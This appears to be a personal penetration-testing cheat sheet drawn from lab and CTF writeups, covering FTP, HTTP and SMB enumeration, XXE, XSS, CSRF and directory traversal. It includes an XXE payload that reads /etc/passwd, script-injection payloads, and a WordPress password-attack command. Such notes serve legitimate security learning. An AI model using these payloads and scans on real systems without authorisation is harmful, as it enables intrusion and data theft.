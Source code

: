 ```yaml
---
title: "Pentesting CheatSheet"
author: "Me"
date: "November 03, 2021"
output: html_document
---
```


# Pentesting CheatSheet
{:.no_toc}

This "CheatSheet" aims to provide a global vision of the various tools and techniques used in the writeups, so that I can easily reuse them (there are links to machines).

Here's the content so far:

1. TOC
{:toc}
{:style="color:black; font-size: 150%;"}

# 21 - FTP

- Connect to the target and check if anonymous FTP is allowed (user *anonymous*, blank password)

````
sudo ftp targetip
`````

- Known vulnerable versions: ProFTPD 1.3.3c, vsFTPd 2.3.4, ... -> Search for Metasploit exploits

# 80 - HTTP

## Enumeration (Directories, files, subdomains, ...)

- Directories and files enumeration with **dirb** (-r for non recursive):

````
sudo dirb http://targetIP -r
``````

- Directories and files enumeration with **gobuster**:

````
sudo gobuster dir -u http://targetIP/ -w /usr/share/wordlists/...wordlist
sudo gobuster dir -u http://targetIP/ -w /usr/share/wordlists/...wordlist -x php # looks for php files
``````
Example: <a href="/_walkthroughs/BountyHunter">BountyHunter</a>

- Directories and files enumeration with **wpscan** (for Wordpress):

````
sudo wpscan --url targetIP # basic scan
sudo wpscan --url targetIP -e u # enumerate users
sudo wpscan --url targetIP -passwords file/path/passwords.txt # password attack
`````
Example: Basic Pentesting: 1

- Subdomains enumeration with **ffuf**:

````
sudo ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://forge.htb/ -H "Host: FUZZ.forge.htb" -t 200 -fl 10
`````
Example: <a href="/_walkthroughs/Forge">Forge</a>

- If the CMS is Wordpress: check **wp_admin_shell_upload**. Example: Basic Pentesting: 1


## XXE Injection

Does the application parses XML? If yes, it might be vulnerable to XXE injection. PoC:

````
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
`````

Example: <a href="/_walkthroughs/BountyHunter">BountyHunter</a>


## SQL Injection

Server-side vulnerability that targets tthe application's database.

## XSS (cross-site scripting)

Client-side vulnerability that works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application.

**Detection**: manually by submitting simple unique input into every entry point in the applicationcon, identifying every location where the submitted input is returned in HTTP responses, and testing each location individually to determine whether suitably crafted input can be used to execute arbitrary JavaScript. Example:

````
<script>alert('test')</script>
`````
**Attention**: *alert()* doesn't work on Chrome from version 92 onward. In this case, we can use *print()* instead.\\
Automatically by using Burp's web vulnerability scanner.

### Stored XSS
The malicious script comes from the website's database. PoC: input <script>alert('test')</script> in a field, submit it and refresh the page. If the browser interprets it, it should open a JavaScript pop-up alert.

### Reflected XXS 
Same principle, but the script isn't stored in a database. Instead, it comes from the HTTP request. Example: if the site/application has a research field, it does an http GET request with an URL parameter (*https://www.insecure.com/search?q=keyboard*). PoC: https://www.insecure.com/search?q=<script>alert</script>. We can then send this link to someone. When he/she visits the URL, the script executes in the user's browser.

### DOM (Document Object Model) based XSS 
The vulnerability resides in the client-side code (not the server-side). It happens when an application contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data back to the DOM. Example:\\
*var search = document.getElementById('search').value;\\
var results = document.getElementById('results');\\
results.innerHTML = 'You searched for: ' + search;*\\
If we can control the value of the input field, we ca craft a malicious value that causes our own script to execute:\\
*You searched for: <img src=1 onerror='/* malicious code here */'>*.


## CSRF (cross-site request forgery)

Principle: do http requests as the victim. In other words, induce a victim user to perform actions they don't intend to do.

## Login Bruteforcing

## Directory traversal

Directory traversal (also known as file path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application. This might include application code and data, credentials for back-end systems, and sensitive operating system files. In some cases, an attacker might be able to write to arbitrary files on the server, allowing them to modify application data or behavior, and ultimately take full control of the server.


Example: <a href="/_walkthroughs/Seal">Seal</a>

# 139, 445 - SMB

- SMB (Server Message Block, protocol to share resources on Windows local networks) enumeration and null sessions:

````
sudo nmblookup -A targetIP
sudo nbtscan targetIP
sudo smbclient -L targetIP
sudo smbmap -H targetIP
````


